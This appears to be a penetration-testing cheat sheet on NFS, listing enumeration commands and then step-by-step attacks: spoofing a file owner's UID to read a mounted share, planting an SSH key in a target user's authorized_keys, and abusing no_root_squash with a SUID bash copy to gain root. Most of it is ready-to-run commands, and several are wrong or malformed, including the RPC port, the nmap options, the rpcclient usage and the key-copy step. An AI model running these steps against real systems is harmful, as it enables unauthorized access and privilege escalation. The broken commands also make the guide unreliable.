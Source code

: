 # Network File Sharing(NFS)

Network File Sharing (NFS) is a protocol that allows you to share directories and files with other Linux clients over a network.

NFS server uses following port numbers :- 2049, 111, 1110, 4045

## Banner Grabbing 
	 
```
nc -v $ip 2049

```   
```    
telnet $ip

```
## Nfs version detection

	nmap -v -p 2049, 111, 1110, 4045 -sT -sV -sC -A $ip

## Script Scan

There are 3 scripts available for nfs enumeration in nmap

##### 1. The nfs-ls.nse script attempts to get useful information about files from NFS exports. The output is intended to resemble the output of ls. 

	 nmap -v -p 2049, 111, 1110, 4045 -sT -sV -sC --scripts=nfs-ls.nse $ip

##### 2. Retrieves disk space statistics and information from a remote NFS share.
	  
  	 nmap -v -p 2049, 111, 1110, 4045 -sT -sV -sC --scripts=nfs-statfs.nse $ip
	  
##### 3. The nfs-showmount.nse script shows NFS exports
	  
     nmap -v -p 2049, 111, 1110, 4045 -sT -sV -sC --scripts=nfs-showmount.nse $ip

## Enumerate nfs share

NFS uses Remote Procedure Calls (RPC) route requests between clients and servers, meaning that the portmap service must be enabled and active at the proper runlevels for NFS communication to occur. By default rpc uses port number 135.

```
showmount -e $ip
```	
```
rpcinfo -p $ip
```
```
rpcclient -I $ip
```	
```
rpcbind -h $ip
```
```
rpcinfo -n 135 $ip
```
```
rpcclient -U 135 $ip
```

## Mount a NFS share

```
mount -t nfs $ip:/ /mnt -o nolock
```
```
mount -t nfs [-o vers=2] 10.12.0.150:/ /mnt/ -o nolock  -  specify to use version 2 because it doesn't have any authentication or authorization.
```
## Use nfspy to mount a share

	nfspysh -o server=$ip:/mnt

Now u can check the directory mount

	df -h

## Permissions

If you mount a folder which contains files or folders only accesible by some user (by UID). You can create locally a user with that UID and using that user you will be able to access the file/folder.

# Exploiting Nfs shares

## Gain Access by Exploiting NFS Shares

### Lets check information about an NFS server

```
showmount -e $ip	
Export list for $ip:
/home/user *
```
```
mount -t nfs -o vers=3 -o nolock $ip:/home/user /mnt/d1 
```	
The mounted share cannot be accessed, probably because the root_squash flag is set.

```
cd /mnt/d1	
cd: permission denied: d1
```		
```
ls -lh
drwxr-x---  2 2008 2008 4.0K Sep  2  2012 d1
```		
We know the uid so we can add a user with the same uid so that we can access the d1 folder.

```
adduser --uid 2008 user
```	
Now we can access the folder we can place the ssh key here so we can make the ssh connection.

1. Create ssh key pair in local machine.
```
ssh-keygen
```		
```
su - user
```
2. Create .ssh folder in mounted share /home/user/.ssh
```
mkdir .ssh
```
3. Now copy  the public key to from the local machine to the target machine's /home/user/.ssh folder.
```
cp ssh-rsa <ssh_public key> /mnt/d1/.ssh/authorized_keys
```
4. Now make SSH connection
```
ssh user@$ip
```		
## Escalate the Privileges by NFS 

After getting ssh connection if we have allowed to edit  the /etc/exports file and add an entry.

```
vim /etc/exports
```
```
/data/  *(rw,sync,no_root_squash)
``` 
```
mount -t nfs  $ip:/data  /mnt 
```
```
cp /usr/bin/bash /mnt/
```
```
chown root:root /mnt/bash
```
```
chmod +s /mnt/bash
```
```
ssh user@$ip
```
```
./bash -p
```

In this way we can become the root!!!!!

# NFS Mount Scanner Using metaspliot

```
msf > use auxiliary/scanner/nfs/nfsmount
```
```
msf > run
```
## Reference: 
[wikipedia](https://en.wikipedia.org/wiki/Network_File_System)

[infosecinstitute](https://resources.infosecinstitute.com/topic/exploiting-nfs-share/)

